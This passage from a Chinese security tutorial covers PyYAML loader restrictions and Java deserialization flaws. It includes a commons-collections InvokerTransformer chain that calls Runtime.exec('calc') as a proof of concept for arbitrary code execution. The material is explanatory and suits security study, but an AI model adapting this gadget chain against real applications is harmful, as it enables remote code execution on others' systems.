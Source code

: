 ###### 版本大于等于5.4

`FullConstructor`现在只额外支持`!!python/name`，`!!python/object`、`!!python/object/new`和`!!python/module`，`!!python/object/apply`都无法使用

###### 版本大于等于6.0

现在在使用`yaml.load`时，用户必须指定`Loader`

###### 参考文章

[SecMap - 反序列化（PyYAML）](https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/)

##### Java反序列化

###### 漏洞原理

反序列化的时候，会调用readObject对于读取序列化数据，整个底层调用链：

```
readObject
->readObject0
->readOrdinaryObject
->readSerialData
->slotDesc.invokeReadObject
->readObjectMethod.invoke
123456
```

而`readObjectMethod`是在`ObjectStreamClass`的构建函数里面初始化的，那么实现自定义的序列化和反序列化方式就只需要在对象中增加一个名为`readObject`、参数是`java.io.ObjectInputStream`的私有方法。
 因此简而言之，造成这个漏洞的原因就是`readObjectMethod`被重写了

###### 真实环境里面的反序列化漏洞

以`commons-collections 3.1`版本为例，`InvokerTransformer`本来是用来帮助开发人员进行类型转换的，但由于其功能过于灵活，被安全人员发现可以用来执行任意代码

```java
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Exp0 {

    public static void main(String[] args) {

        // 使用 ConstantTransformer 将 Runtime.class 包装一层，等同于  Class<Runtime> runtimeClass = Runtime.class;
        Object runtimeClass = new ConstantTransformer(Runtime.class).transform(null);

        // 使用 InvokerTransformer 调用 runtimeClass 的 getMethod 方法,等同于  Method getRuntime = runtimeClass.getMethod("getRuntime", null);
        Object getRuntimeMethod = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(runtimeClass);

        // 使用 InvokerTransformer 调用getRuntimeMethod 的 invoke 方法,等同于 Object runtime = getRuntime.invoke(null, null);
        Object runtime = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[2]).transform(getRuntimeMethod);

        // 使用 InvokerTransformer 调用 runtime 的 exec 方法，等同于 runtime.exec("calc")
        Object exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
    }
}
1234567891011121314151617181920
```

